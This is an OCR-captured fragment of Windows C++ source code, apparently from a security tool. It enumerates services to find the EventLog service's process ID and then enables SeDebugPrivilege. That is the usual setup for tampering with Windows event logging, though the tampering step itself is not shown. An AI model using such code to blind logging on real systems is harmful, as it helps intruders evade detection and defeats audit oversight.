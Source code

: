 ```
	}
	else
	{
		SC_ENUM_TYPE infoLevel = SC_ENUM_PROCESS_INFO;
		DWORD dwServiceType = SERVICE_WIN32;
		DWORD dwServiceState = SERVICE_STATE_ALL;
		LPBYTE lpServices = NULL;
		DWORD cbBufSize = 0;
		DWORD pcbBytesNeeded;
		DWORD servicesReturned;
		LPDWORD lpResumeHandle = NULL;
		LPCSTR pszGroupName = NULL;
		BOOL ret = EnumServicesStatusEx(scHandle, infoLevel, dwServiceType, dwServiceState, lpServices, cbBufSize, &pcbBytesNeeded, &servicesReturned, lpResumeHandle, pszGroupName);
		cbBufSize = pcbBytesNeeded;
		lpServices = new BYTE[cbBufSize];
		if (NULL == lpServices)
		{
			printf("[!]lpServices = new BYTE[%ld] -> fail(%ld)\n", cbBufSize, GetLastError());
		}
		else
		{
			ret = EnumServicesStatusEx(scHandle, infoLevel, dwServiceType, dwServiceState, lpServices, cbBufSize, &pcbBytesNeeded, &servicesReturned, lpResumeHandle, pszGroupName);
			LPENUM_SERVICE_STATUS_PROCESS lpServiceStatusProcess = (LPENUM_SERVICE_STATUS_PROCESS)lpServices;
			for (DWORD i = 0; i < servicesReturned; i++)
			{
				_strlwr_s(lpServiceStatusProcess[i].lpServiceName, strlen(lpServiceStatusProcess[i].lpServiceName) + 1);
				if (strstr(lpServiceStatusProcess[i].lpServiceName, "eventlog") != 0)
				{
					printf("[+]ServiceName:%s\n", lpServiceStatusProcess[i].lpServiceName);
					printf("[+]PID:%ld\n", lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId);
					PID = lpServiceStatusProcess[i].ServiceStatusProcess.dwProcessId;
				}
			}
			delete[] lpServices;
		}
		CloseServiceHandle(scHandle);
	}

	return PID;
}

int main(int argc, char *argv[])
{

	DWORD pid = getpid();
	if (pid == 0)
	{
		printf("[!]Get EventLog's PID error\n");
		return -1;
	}

	printf("[+]Try to EnableDebugPrivilege... ");
	if (!EnableDebugPrivilege(TRUE))
	{
		printf("[!]AdjustTokenPrivileges Failed.<%d>\n", GetLastError());
		return -1;
	}
	printf("Done\n");
```